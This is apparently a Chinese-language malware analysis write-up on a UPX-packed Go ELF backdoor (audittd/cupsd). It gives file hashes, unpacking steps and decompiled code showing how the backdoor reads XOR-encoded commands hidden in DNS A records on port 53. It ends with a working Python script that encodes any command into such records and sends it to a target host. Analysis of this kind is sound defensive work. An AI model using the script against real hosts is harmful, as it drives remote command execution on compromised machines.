







# 恶意文件信息

后门样本在环境中的名称为：cupsd, audittd, 带 upx 压缩壳

带 upx 壳后门样本摘要信息如下

```
Name: audittd
Size: 1085492 bytes (1060 KiB)
CRC32: DA6546BD
CRC64: FC2AA1210805AC5F
SHA256: aa661e149f0a6a9a61cadcca47a83893a9e6a5cdb41c3b075175da28e641a80f
SHA1: fe10e9f33faccb92061dfb8d7218b6fcceb2e063
BLAKE2sp: 60e714ca66d5f02e5b1f84952a9da01e9664166014d27ea00bb306682a9ce430

```

脱壳后后门样本摘要信息如下

```
Name: audittd1
Size: 2736128 bytes (2672 KiB)
CRC32: A9203A5D
CRC64: 2A7CE4762AF0EED9
SHA256: ee1d00ff5fa9a6184ce0dab2aaad1c07f5e012a4129f437e63b7a2341e792b04
SHA1: c5ab82cc6d4ddf41d9d1a188a4909344a6b50686
BLAKE2sp: d72eb1007325e912b2c580f245f3b6df746a781b777b721d862dc1a776b6dfee

```

# 恶意样本分析

## 基本分析

使用 file 命令查看文件，为 64 位 ELF 静态编译可执行文件，无节区（加壳的文件通常表现位无节区）

```
┌──(kali㉿kali)-[~]
└─$ file audittd0
audittd0: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
```

使用 IDA 打开只看到有几个去掉符号表的函数



start 函数已进入就开始 jump，也符合加壳的特性



查看字符串，有 upx 关键字符串，可以猜测加了 upx 压缩壳



使用 detect it easy 工具查看是加了 upx 壳



使用 upx 脱壳获取程序

```
┌──(kali㉿kali)-[~]
└─$ upx -d audittd
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2024
UPX 4.2.2       Markus Oberhumer, Laszlo Molnar & John Reiser    Jan 3rd 2024

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   2741256 <-   1085492   39.60%   linux/amd64   audittd

Unpacked 1 file.

```

## 静态分析  

## main 函数

创建 RAW 套接字，读取 DNS 报文

```c
// main.main
void __fastcall main_main()
{
  int v0; // esi
  int v1; // r8d
  int v2; // r9d
  int v3; // r10d
  __int64 v4; // r14
  int v5; // edi
  int v6; // eax
  int v7; // r8d
  int v8; // r9d
  int v9; // r10d
  int v10; // r11d
  int v11; // eax
  int v12; // ecx
  int v13; // r8d
  int v14; // r9d
  int v15; // r10d
  __int64 v16; // r11
  int v17; // r8d
  int v18; // r9d
  int v19; // r10d
  int v20; // r11d
  __int64 msgBuf; // rax
  __int64 pUDP; // rbx
  int v23; // r8d
  int v24; // r9d
  int v25; // r10d
  int v26; // r11d
  __int64 msgLen; // rcx
  __int64 dnsMsgBuf; // rax
  int v29; // r8d
  int v30; // r9d
  int v31; // r10d
  int v32; // r11d
  __int64 v33; // rbx
  __int64 v34; // [rsp-20h] [rbp-48h]
  __int64 v35; // [rsp-20h] [rbp-48h]
  __int64 v36; // [rsp-20h] [rbp-48h]
  __int64 v37; // [rsp-20h] [rbp-48h]
  __int64 v38; // [rsp-20h] [rbp-48h]
  __int64 v39; // [rsp-18h] [rbp-40h]
  __int64 v40; // [rsp-18h] [rbp-40h]
  int v41; // [rsp-18h] [rbp-40h]
  __int64 v42; // [rsp-18h] [rbp-40h]
  net_IPAddr *IPAddr; // [rsp-10h] [rbp-38h]
  __int64 v44; // [rsp-10h] [rbp-38h]
  __int64 v45; // [rsp-10h] [rbp-38h]
  __int64 v46; // [rsp-10h] [rbp-38h]
  int v47; // [rsp-8h] [rbp-30h]
  __int64 dnsMsgLen; // [rsp+0h] [rbp-28h]
  int v49; // [rsp+10h] [rbp-18h]
  int v50; // [rsp+18h] [rbp-10h]
  void *retaddr; // [rsp+28h] [rbp+0h] BYREF

  while ( (unsigned __int64)&retaddr <= *(_QWORD *)(v4 + 16) )
    runtime_morestack_noctxt();
  v5 = 7;
  v6 = net_ResolveIPAddr((unsigned int)"ip4", 3, (unsigned int)"0.0.0.0", 7, v0, v1, v2, v3);
  v11 = net_ListenIP((int)"ip4:udp", 7, v6, 7, v0, v7, v8, v9, v10, v34, v39, IPAddr);
  v49 = golang_org_x_net_ipv4_NewRawConn((unsigned int)off_5BE8C8, v11, v12, 7, v0, v13, v14, v15, v16, v35);
  while ( 1 )
  {
    do
    {
      do
      {
        msgBuf = runtime_makeslice((unsigned int)&RTYPE_uint8, 1480, 1480, v5, v0, v17, v18, v19, v20, v36, v40, v44);
        v0 = v49 + 16;
        pUDP = msgBuf;
        v5 = 1480;
      }
      while ( *(_QWORD *)(golang_org_x_net_ipv4__ptr_packetHandler_ReadFrom(
                            v49 + 16,
                            msgBuf,
                            1480,
                            1480,
                            v49 + 16,
                            v23,
                            v24,
                            v25,
                            v26,
                            v37,
                            v41,
                            v45,
                            v47)
                        + 64) != 17LL );  // 读取 DNS 报文，并判断传输层协议是 UDP 协议
    }
    while ( msgLen <= 8 || __ROL2__(*(_WORD *)(pUDP + 2), 8) != 53 );  // 判断传输层的报文长度不能小于8，且目的端口是53
    dnsMsgLen = msgLen - 8;
    dnsMsgBuf = runtime_makeslice(
                  (unsigned int)&RTYPE_uint8,
                  dnsMsgLen,
                  dnsMsgLen,
                  1480,
                  v0,
                  v17,
                  v18,
                  v19,
                  v20,
                  v36,
                  v40,
                  v44);
    v33 = pUDP + 8;
    if ( dnsMsgBuf != v33 )
    {
      v50 = dnsMsgBuf;
      runtime_memmove(dnsMsgBuf, v33, dnsMsgLen);
      LODWORD(dnsMsgBuf) = v50;
    }
    main_handleDnsInfo(dnsMsgBuf, dnsMsgLen, dnsMsgLen, 1480, v0, v29, v30, v31, v32, v38, v42, v46);
  }
}
```





## main_handleDnsInfo

```c
while ( (unsigned __int64)&v57 <= *(_QWORD *)(v9 + 16) )
  {
    v61 = a1;
    v63 = a3;
    runtime_morestack_noctxt();
    a1 = v61;
    a3 = v63;
  }
  if ( a1 && a2 )
  {
    v60 = a1;
    v55 = 4 * a2;
    v10 = 4 * a2;
    byteOfIps = (unsigned __int8 *)runtime_makeslice((unsigned int)&RTYPE_uint8, v10, v10, a4, a5, a6, a7, a8, a9);// 切片长度为ip地址个数左移2
    v59 = byteOfIps;
    v15 = 0LL;
LABEL_7:
    if ( a2 <= v15 )
    {
      if ( !v55 )
        runtime_panicIndex(0LL, v10);
      v22 = *byteOfIps;
      if ( v22 > (__int64)v55 )
      {
        v39 = (errors_errorString *)runtime_newobject(&RTYPE_errors_errorString);
        v39->s.len = 10LL;
        v39->s.ptr = "length err";
        return 0LL;
      }
      else
      {
        v23 = (unsigned __int8)(v22 + 1);       // byteOfIps[1:]
        if ( v23 > v55 )
          runtime_panicSliceAcap(byteOfIps, v10, v23);
        if ( !v23 )
          runtime_panicSliceB(1LL, v10, 0LL);
        v24 = key;
        runtime_stringtoslicebyte((unsigned int)&v56, (_DWORD)key, keyLen, a4, v23, v12, a2, v13, v14, v43, v45, v47);// keyIndex 为该切片索引
        result = runtime_makeslice((unsigned int)&RTYPE_uint8, (int)v23 - 1, (int)v23 - 1, a4, v23, v25, v26, v27, v28);
        bytes = &v59[((__int64)(1 - v55) >> 63) & 1];
        bytesLen = v23 - 1;
        v36 = (__int64)v24;
        byteInd = 0LL;
        keyInd = 0LL;
        while ( byteInd < bytesLen )            // 循环处理IP地址
        {
          if ( v36 <= (__int64)keyInd )
            keyInd = 0LL;
          if ( keyInd >= keyLen )
            runtime_panicIndex(keyInd, keyInd);
          byte = bytes[byteInd];
          v30 = byte ^ *((unsigned __int8 *)key + keyInd);
          *(_BYTE *)(result + byteInd++) = byte ^ *((_BYTE *)key + keyInd++);// 计算的主要逻辑，进行异或运行
        }
        return runtime_slicebytetostring(0, result, bytesLen, v36, bytesLen, v30, byte, v32, v33, v44, v46, sliceLen);
      }
    }
    else
    {
      v54 = v15;
      pAddressesInByte = 16 * v15;
      v10 = *(_QWORD *)(v60 + pAddressesInByte + 8);
      a4 = 1;
      v19 = (__int64 *)strings_genSplit(
                         *(_QWORD *)(v60 + pAddressesInByte),
                         v10,
                         (unsigned int)L".5",
                         1,
                         0,
                         -1,
                         v60,
                         v13,
                         v14,
                         v43,
                         v45,
                         v47,
                         v49,
                         v50,
                         v51);
      v58 = (char *)v19;
      v52 = v10;
      for ( i = 0LL; ; i = v53 + 1 )
      {
        if ( i >= 4 )
        {
          v15 = v54 + 1;
          byteOfIps = v59;
          goto LABEL_7;
        }
        if ( v10 <= i )
          runtime_panicIndex(i, v10);
        v53 = i;
        keyIndex = 2 * i;
        v41 = v19[keyIndex + 1];
        v42 = strconv_Atoi(v19[keyIndex], v41, keyIndex * 8, 1, v19[keyIndex], v12, v20, v13, v14, v43, v45);// 将IP转换成整数
        if ( v41 )
          break;
        v20 = v54;
        v14 = v53 + 4 * v54;
        if ( v14 >= v55 )
          runtime_panicIndex(v53 + 4 * v54, 0LL);
        v59[v14] = v42;
        v13 = v53 + 1;
        v10 = v52;
        v19 = (__int64 *)v58;
      }
      return 0LL;
    }
  }
  else
  {
    p_errors_errorString = (errors_errorString *)runtime_newobject(&RTYPE_errors_errorString);
    p_errors_errorString->s.len = 9LL;
    p_errors_errorString->s.ptr = "ips empty";
    return 0LL;
  }
}
```

## 动态分析


每个 RR 16 个字节



## 脚本构造

```py
import sys
import os
import socket
from dnslib import DNSRecord, DNSHeader, DNSQuestion, RR
from dnslib.dns import A


import sys
import os
import socket
from dnslib import DNSRecord, DNSHeader, DNSQuestion, RR
from dnslib.dns import A


class MyDnsUtils:
    key = "funnyAndHappy"
    
    @staticmethod
    def decodeIpsToCmd(addresses, addrNum):
        cmdLen = addresses[0].split(".")[0]
        if cmdLen >= addrNum * 4:
            print("Length error")
            return
        #address = address.split(".5")
        key = MyDnsUtils.key
        result = []
        byte = [] 
        i = 0   
        for address in addresses:
            for seg in address.split("."):
                byte.append(int(seg))
                i += 1
                if i >= cmdLen:
                    break    
        for ind in range(1, addrNum + 1):
            r = byte[ind] ^ ord(key[(ind - 1) % len(key)])
            result.append(chr(r))   
        cmd =  "".join(result)
        print(f"address: {addresses}, decode to cmd: '{cmd}")
        return cmd
        
        
    @staticmethod
    def decodeCmdToIps(cmd):
        key = MyDnsUtils.key
        cmdLen = len(cmd)
        byte = [cmdLen]
        for c in cmd:
            byte.append(ord(c))
        print(byte)
        i = 1
        ips = []
        tmp = [str(byte[0])]
        for b in byte[1:]:
            if i % 4 == 0:
                ips.append(".".join(tmp))
                tmp = []
            tmp.append(str(b ^ ord(key[(i-1)%len(key)])))
            i += 1
        # 填充任意数字，这里填充1
        for _ in range(4-len(tmp)):
            tmp.append("1")
        ips.append(".".join(tmp))
        print(f"cmd: '{cmd}', payload: {ips}")
        return ips


# 构造 DNS 响应
def create_dns_response(domain="pgw-s5s8.mpgw001.node", addresses=["1.1.1.1"]):
    # 构建DNS响应头
    response = DNSRecord(DNSHeader(qr=1, aa=1, ra=1, rcode=0))
    response.add_question(DNSQuestion(domain))
    for address in addresses:
        response.add_answer(RR(domain, rtype=1, ttl=60, rdata=A(address)))
    return response.pack()


# 给受害主机 53 端口发送 DNS 响应
def sendto_dns_server(data, rhost="127.0.0.1", rport=53):
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    server_socket.bind(("0.0.0.0", 6688))
    server_socket.sendto(data, (rhost, rport))  # 发送响应
    
    
def main():
    if len(sys.argv) != 3:
        print(f"usage: python {__file__} <rhost> <cmd>")
        os._exit(0)
    cmd = sys.argv[2]
    rhost = sys.argv[1]
    payload = MyDnsUtils.decodeCmdToIps(cmd)
    data = create_dns_response(addresses=payload)
    #data = create_dns_response(addresses=['2.10.6.78', '65.27.40.0', '68.118.65.95', '4.20.22.90', '15.64.21.46', '9.85.121.1'])
    sendto_dns_server(data, rhost=rhost)
    

if __name__ == "__main__":
    main()


```


